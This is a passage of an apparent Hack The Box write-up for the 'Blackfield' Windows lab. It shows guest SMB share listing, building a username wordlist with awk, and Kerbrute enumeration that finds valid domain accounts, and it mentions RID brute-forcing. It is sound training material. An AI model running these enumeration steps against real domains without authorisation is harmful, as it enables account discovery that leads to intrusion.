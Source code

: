 There are two non-standard shares here, which are `forensic` and `profiles$`, and I have read access to `profiles$`. I will use **smbclient** to connect to the share and list the contents, and I found that the content of the shares are a lot of empty folders for different users in this machine. 

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows]
└─$ smbclient '//10.10.10.192/profiles$' -U guest
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  3 23:47:12 2020
  ..                                  D        0  Wed Jun  3 23:47:12 2020
  AAlleni                             D        0  Wed Jun  3 23:47:11 2020
  ABarteski                           D        0  Wed Jun  3 23:47:11 2020
  ABekesz                             D        0  Wed Jun  3 23:47:11 2020
...SNIP...
  ZMalaab                             D        0  Wed Jun  3 23:47:12 2020
  ZMiick                              D        0  Wed Jun  3 23:47:12 2020
  ZScozzari                           D        0  Wed Jun  3 23:47:12 2020
  ZTimofeeff                          D        0  Wed Jun  3 23:47:12 2020
  ZWausik                             D        0  Wed Jun  3 23:47:12 2020
                5102079 blocks of size 4096. 1693830 blocks available
smb: \>
```

We can take the name of these users and make them into a wordlist, then probably use **Kerbrute** to validate them. Found three valid usernames that we can 

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows]
└─$ awk '{print $1}' raw.txt > users.list

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/blackfield-windows]
└─$ kerbrute userenum -d BLACKFIELD.local --dc 10.10.10.192 users.list

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 01/25/25 - Ronnie Flathers @ropnop

2025/01/25 13:29:28 >  Using KDC(s):
2025/01/25 13:29:28 >   10.10.10.192:88

2025/01/25 13:29:53 >  [+] VALID USERNAME:       audit2020@BLACKFIELD.local
2025/01/25 13:32:12 >  [+] VALID USERNAME:       support@BLACKFIELD.local
2025/01/25 13:32:13 >  [+] VALID USERNAME:       svc_backup@BLACKFIELD.local
2025/01/25 13:32:48 >  Done! Tested 314 usernames (3 valid) in 200.271 seconds
```

Since we can authenticate as `guest` on the SMB, I decided to do RID brute-force too to get a list of usernames. I found another user `lydericlefebvre` that doesn't appear on our results above, probably because of the username format `firstnamelastname`.
